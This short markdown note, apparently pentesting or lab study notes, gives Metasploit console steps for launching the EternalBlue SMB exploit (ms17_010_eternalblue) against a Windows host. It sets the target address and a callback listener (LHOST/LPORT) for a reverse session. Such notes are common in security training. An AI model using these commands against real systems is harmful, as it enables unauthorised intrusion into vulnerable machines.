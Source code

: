 # Gain access

## Start metasploit

```bash
msfconsole
```

## Find explotation code

```bash
exploit/windows/smb/ms17_010_eternalblue
```

## Show options of the exploit

```bash
# with the explot selected
show options
```

## Set RHOSTS

```bash
set RHOSTS <HOST_IP>
```

## Remember

```bash
set LHOST <YOUR_IP>
set LPORT <YOUR_PORT>
```
